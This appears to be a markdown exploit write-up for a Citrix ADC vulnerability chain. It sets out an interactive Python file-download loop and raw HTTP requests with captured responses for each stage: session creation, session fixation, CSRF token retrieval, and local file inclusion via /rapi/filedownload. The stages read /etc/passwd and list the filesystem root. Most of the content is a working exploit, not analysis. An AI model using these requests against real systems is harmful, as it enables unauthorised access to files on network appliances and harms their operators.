




#  Citrix ADC Vulns

## CVE List
https://support.citrix.com/article/CTX276688



##### Add if while Code

https://dmaasland.github.io/posts/citrix.html

```
	response_str = json.dumps(r.headers.__dict__['_store'])
	if r.status_code == 406 and "Content-Disposition" in response_str and r.headers["Accept-Ranges"] == "bytes" and r.headers["Pragma"] == "private":
		print ("[+] Send Success!")
		print ("_"*80,"\n\n")
		print (r.text)
		print ("_"*80)
		while 1:
			PAYLOAD1 = quote(input("\n[+] Set File= "),"utf-8")
			url = '{0}/rapi/filedownload?filter=path:{1}'.format(base_url, PAYLOAD1)
			r = session.post(url=url, headers=headers, data=data, verify=False,proxies=proxies)
			if r.status_code == 406 and "Content-Disposition" in response_str and r.headers["Accept-Ranges"] == "bytes" and r.headers["Pragma"] == "private":
				print ("_"*80,"\n\n")
				print (r.text)
				print ("_"*80)
			# pass
	else:
		print ("[+] Error!")
```



## 0x01 create_session

```
POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
Host: 10.20.24.248
User-Agent: python-requests/2.24.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/xml
X-NITRO-USER: Cu59z69j
X-NITRO-PASS: vgR7HPQ0
Content-Length: 44

<appfwprofile><login></login></appfwprofile>
```


```
HTTP/1.1 406 Not Acceptable
Date: Fri, 10 Jul 2020 18:45:26 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Set-Cookie: SESSID=3be0633199c076f0613d084b758978c3; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline' http://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com; script-src 'self' 'unsafe-inline' 'unsafe-eval' http://yui.yahooapis.com https://cis.citrix.com http://query.yahooapis.com https://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com; connect-src 'self' http://cis.citrix.com https://s3.amazonaws.com; img-src 'self' data: blob: http://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com;
Content-Length: 4489
Keep-Alive: timeout=15, max=100
Connection: Keep-Alive
Content-Type: application/xml; charset=utf-8

<div style="color: red; margin: 10px" title="More information about this error may be available in the server error log. Please contact the server administrator">An internal server error was encountered</div>
```

## 0x02 fix_session 

```
GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
Host: 10.20.24.248
User-Agent: python-requests/2.24.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: SESSID=3be0633199c076f0613d084b758978c3


```

```
HTTP/1.1 302 Found
Date: Fri, 10 Jul 2020 18:45:27 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: is_cisco_platform=0; expires=Mon, 05-Jul-2021 18:45:27 GMT; Max-Age=31104000; path=/; HttpOnly
Location: /menu/neo
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline' http://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com; script-src 'self' 'unsafe-inline' 'unsafe-eval' http://yui.yahooapis.com https://cis.citrix.com http://query.yahooapis.com https://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com; connect-src 'self' http://cis.citrix.com https://s3.amazonaws.com; img-src 'self' data: blob: http://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com;
Content-Length: 416
Keep-Alive: timeout=15, max=99
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<div style="color: red; margin: 10px" title="More information about this error may be available in the server error log. Please contact the server administrator">An internal server error was encountered</div><div style="color: red; margin: 10px" title="More information about this error may be available in the server error log. Please contact the server administrator">An internal server error was encountered</div>
```

##### /menu/neo 302

```
GET /menu/neo HTTP/1.1
Host: 10.20.24.248
User-Agent: python-requests/2.24.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: SESSID=3be0633199c076f0613d084b758978c3; is_cisco_platform=0


```

```
HTTP/1.1 200 OK
Date: Fri, 10 Jul 2020 18:45:29 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: startupapp=neo; expires=Mon, 05-Jul-2021 18:45:29 GMT; Max-Age=31104000; path=/; HttpOnly
Vary: Accept-Encoding
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline' http://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com; script-src 'self' 'unsafe-inline' 'unsafe-eval' http://yui.yahooapis.com https://cis.citrix.com http://query.yahooapis.com https://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com; connect-src 'self' http://cis.citrix.com https://s3.amazonaws.com; img-src 'self' data: blob: http://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com;
Content-Length: 1771
Keep-Alive: timeout=15, max=98
Connection: Keep-Alive
Content-Type: text/html;application/octet-stream;application/ecmascript;application/json;application/xml;charset=UTF-8

<!DOCTYPE html PUBLIC "-//W3C//DTD XDEV_HTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="en" xml:lang="en">
<head>
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
<title>Citrix ADC - Configuration</title>
<script type="text/javascript">var neo_logout_url = "/menu/lo?rand=1450749159.1594406727843271";</script>
<script type="text/javascript">var neo_machine_sysid = "450010";var rand = "1450749159.1594406727843271";var partition_dir = "";var is_ha_supported_in_gui = "true";var login_warning = "";</script>
<script type="text/javascript">var global_data = "{global_data}";</script>
```


## 0x03 get_rand

```
GET /menu/stc HTTP/1.1
Host: 10.20.24.248
User-Agent: python-requests/2.24.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: SESSID=3be0633199c076f0613d084b758978c3; is_cisco_platform=0; startupapp=neo


```

```
HTTP/1.1 200 OK
Date: Fri, 10 Jul 2020 18:45:30 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline' http://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com; script-src 'self' 'unsafe-inline' 'unsafe-eval' http://yui.yahooapis.com https://cis.citrix.com http://query.yahooapis.com https://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com; connect-src 'self' http://cis.citrix.com https://s3.amazonaws.com; img-src 'self' data: blob: http://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com;
Content-Length: 15505
Keep-Alive: timeout=15, max=97
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="en" xml:lang="en">
<head>
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
<title>Citrix ADC - Statistics</title>
<link href="/admin_ui/common/css/ns/ui.css" rel="stylesheet" type="text/css" />
<script type="text/javascript" src="/admin_ui/common/js/jquery/_jquery.min.js"></script>
<script type="text/javascript">
//rand is used in utils.js in the URL to logout and in the URL to update NSAPI token
//rand_key & rand are used in utils.js to avoid CSRF in all POST requests
var rand = "1450749159.1594406727843271";
var rand_key = "11087806821594406727843344";
var NSERR_SESSION_EXPIRED = 444;

</script>
```

## 0x04 do_lfi


```
POST /rapi/filedownload?filter=path:%2Fetc%2Fpasswd HTTP/1.1
Host: 10.20.24.248
User-Agent: python-requests/2.24.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/xml
X-NITRO-USER: oY39DXzQ
X-NITRO-PASS: ZuU9Y9c1
rand_key: 1450749159.1594406727843271
Cookie: SESSID=3be0633199c076f0613d084b758978c3; is_cisco_platform=0; startupapp=neo
Content-Length: 31

<clipermission></clipermission>
```

```
HTTP/1.1 406 Not Acceptable
Date: Fri, 10 Jul 2020 18:45:32 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Expires: -1
Cache-Control: private, must-revalidate, post-check=0, pre-check=0
Pragma: private
Content-Disposition: attachment;filename="passwd"
Accept-Ranges: bytes
Content-Length: 1559
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline' http://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com; script-src 'self' 'unsafe-inline' 'unsafe-eval' http://yui.yahooapis.com https://cis.citrix.com http://query.yahooapis.com https://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com; connect-src 'self' http://cis.citrix.com https://s3.amazonaws.com; img-src 'self' data: blob: http://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com;
Keep-Alive: timeout=15, max=95
Connection: Keep-Alive
Content-Type: application/octet-stream

# $FreeBSD: release/8.4.0/etc/master.passwd 243948 2012-12-06 11:54:25Z rwatson $
#
root:*:0:0:Charlie &:/root:/usr/bin/bash
nsroot:*:0:0:Netscaler Root:/root:/netscaler/nssh
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/usr/games:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/sbin/nologin
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
nsmonitor:*:65532:65534:Netscaler Monitoring user:/var/nstmp/monitors:/usr/sbin/nologin

```

### List Dir File

Example `/` > `path:%2F`

```
POST /rapi/filedownload?filter=path:%2F HTTP/1.1
Host: 10.20.24.248
User-Agent: python-requests/2.24.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/xml
X-NITRO-USER: oY39DXzQ
X-NITRO-PASS: ZuU9Y9c1
rand_key: 1450749159.1594406727843271
Cookie: SESSID=3be0633199c076f0613d084b758978c3; is_cisco_platform=0; startupapp=neo
Content-Length: 31

<clipermission></clipermission>
```

```
HTTP/1.1 406 Not Acceptable
Date: Fri, 10 Jul 2020 19:54:02 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Expires: -1
Cache-Control: private, must-revalidate, post-check=0, pre-check=0
Pragma: private
Content-Disposition: attachment;filename=""
Accept-Ranges: bytes
Content-Length: 512
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline' http://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com; script-src 'self' 'unsafe-inline' 'unsafe-eval' http://yui.yahooapis.com https://cis.citrix.com http://query.yahooapis.com https://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com; connect-src 'self' http://cis.citrix.com https://s3.amazonaws.com; img-src 'self' data: blob: http://cdn.pendo.io https://data.pendo.io https://pendo-static-5175857953112064.storage.googleapis.com;
Keep-Alive: timeout=15, max=100
Connection: Keep-Alive
Content-Type: application/octet-stream

.snap
analysis
bin
colorful
compat
configdb
dev
etc
flash
home
lib
libexec
mnt
netscaler
nscache
nsconfig
optional
proc
root
sbin
tmp
usr
var
```
### Example `/etc` > `path:%2Fetc`



## 参考链接:

https://dmaasland.github.io/posts/citrix.html
